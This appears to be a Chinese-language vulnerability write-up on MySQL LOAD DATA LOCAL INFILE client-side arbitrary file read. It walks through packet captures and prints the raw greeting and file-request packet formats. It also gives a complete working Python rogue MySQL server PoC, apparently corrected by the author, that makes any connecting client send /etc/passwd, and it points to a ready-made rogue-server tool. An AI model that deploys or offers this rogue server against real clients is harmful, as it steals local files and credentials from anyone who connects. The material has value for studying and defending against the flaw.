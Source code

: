 # MySQL LOAD DATA 读取客户端任意文件

### 一、漏洞简介

LOAD DATA INFILE

mysql的LOAD DATA INFILE语句主要用于读取一个文件的内容并且存入一个表中。通常有两种用法，分别是：


```bash
load data infile "/etc/passwd" into table TestTable fields terminated by '分隔符';
load data local infile "/etc/passwd" into table TestTable fields terminated by '分隔符';
```

第一个语句是读取服务器上的/etc/passwd文件并存入TestTable表中，第二个语句是读取客户端本地的/etc/passwd文件并存入TestTable表中。我们要利用的是LOAD DATA LOCAL INFILE。

官方文档中也提出了这个问题（PS：Google翻译的不是很准确）

![](images/15891948032636.png)


### 二、漏洞影响

### 三、复现过程

分析数据包

* 测试环境：
* MacOS 10.14
* Mysql 5.7.21

使用tcpdump抓取3306端口的数据包

![](images/15891948214955.png)


1.服务器向客户端发送greeting问候包，包含服务端banner信息

![](images/15891948289969.png)


2.客户端发送登陆请求包，包含用户名密码，以及含有LOAD DATA LOCAL选项的客户端banner信息。

![](images/15891948367091.png)


3.然后是客户端初始化的一些查询，比如`select database(); select @@version_comment;`

![](images/15891948491517.png)


4.找到我们执行的LOAD DATA INFILE数据包，第一个包看起来比较正常，是客户端发起的Request Que

![](images/15891948558992.png)


5.但是紧接着服务器返回了一个包含刚才所要LOAD DATA INFILE的文件名/Users/smi1e/Desktop/test.txt的数据包。

![](images/15891948632565.png)


6.然后客户端向服务端发送了/Users/smi1e/Desktop/test.txt文件的内容：

![](images/15891948713955.png)


如果我们在客户端发送查询之后，返回一个Response TABULAR数据包，即服务端向客户端发送了文件名的数据包，如果我们把这个文件名设置成我们想要读取的文件，那么我们就可以读取客户端的任意文件了。正如官方文档所写的 In theory, a patched server could be built that would tell the client program to transfer a file of the server's choosing rather than the file named by the client in the LOAD DATA statement.

也就是说想要读取哪个文件是服务端说了算，跟客户端所request的文件名没有关系。

最重要的是伪造的服务端可以在任何时候回复一个file-transfer 请求，不一定非要是在客户端发送LOAD DATA LOCAL数据包的时候。

不过如果想要利用此特性，客户端必须具有CLIENT_LOCAL_FILES即(Can use LOAD DATA LOCAL)属性。如果没有的话，就要在连接mysql的时候加上--enable-local-infile。

**搭建MySQL服务端**

主要分为

* 向 MySQL Client 发送Server Greeting
* 等待 Client 端发送一个Query Package
* 回复一个file transfer请求

我们需要知道如何构造File Transfer和Server Greeting数据包，这些包的格式都可以在 MySQL 的官方文档上找到。

File Transfer数据包格式：Protocol::LOCAL_INFILE_Request

并且我们需要等待一个来自 Client 的查询请求，才能回复这个读文件的请求。不过我们在上面看到客户端在连接成功后会自动的做一些初始化的查询。

![](images/15891948982523.png)


官方也给了exmaple


```
0c 00 00 01 fb 2f 65 74    63 2f 70 61 73 73 77 64    ...../etc/passwd
```

数据包的内容其实是从\xfb开始的，这个字节代表包的类型，后面紧跟要读取的文件名。前面的0x0c是数据包的长度（从 \xfb 开始计算），长度后面的三个字节\x00\x00\x01是数据包的序号。

![](images/15891949172275.png)


Greeting数据包格式：官方文档，如果不会构造可以直接拷贝抓到的数据包然后改一下长度、文件名之类的。

这里直接拷贝大佬归纳的格式。


```bash
'\x0a',  # Protocol
'6.6.6-lightless_Mysql_Server' + '\0',  # Version
'\x36\x00\x00\x00',  # Thread ID
'ABCDABCD' + '\0',  # Salt
'\xff\xf7',  # Capabilities, CLOSE SSL HERE!
'\x08',  # Collation
'\x02\x00',  # Server Status
"\x0f\x80\x15", 
'\0' * 10,  # Unknown
'ABCDABCD' + '\0',
"mysql_native_password" + "\0"
```

**poc**

来源于https://www.vesiluoma.com/abusing-mysql-clients/的POC，测了一个多小时都没成功，最后发现里面 #3payload写错了，我给改了下。


```python
#!/usr/bin/python
#coding: utf8
import socket

# linux :
#filestring = "/etc/passwd"
# windows:
#filestring = "C:\Windows\system32\drivers\etc\hosts"
HOST = "0.0.0.0" # open for eeeeveryone! ^_^
PORT = 3306
BUFFER_SIZE = 1024

#1 Greeting
greeting = "\x5b\x00\x00\x00\x0a\x35\x2e\x36\x2e\x32\x38\x2d\x30\x75\x62\x75\x6e\x74\x75\x30\x2e\x31\x34\x2e\x30\x34\x2e\x31\x00\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00"
#2 Accept all authentications
authok = "\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00"

#3 Payload
#数据包长度
payloadlen = "\x0c"
padding = "\x00\x00"
payload = payloadlen + padding +  "\x01\xfb\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((HOST, PORT))
s.listen(1)

while True:
    conn, addr = s.accept()

    print 'Connection from:', addr
    conn.send(greeting)
    while True:
        data = conn.recv(BUFFER_SIZE)
        print " ".join("%02x" % ord(i) for i in data)
        conn.send(authok)
        data = conn.recv(BUFFER_SIZE)
        conn.send(payload)
        print "[*] Payload send!"
        data = conn.recv(BUFFER_SIZE)
        if not data: break
        print "Data received:", data
        break
    # Don't leave the connection open.
    conn.close()
```

![](images/15891949469014.png)


ps: 实测 下面这个项目比较好用，上面的poc还需要改长度和内容的16进制值

Github还有一个项目：https://github.com/allyshka/Rogue-MySql-Server

该特性适用于：MySQL Client、 PHP with mysqli、Python with MySQLdb、Python3 with mysqlclient、Java with JDBC Driver等。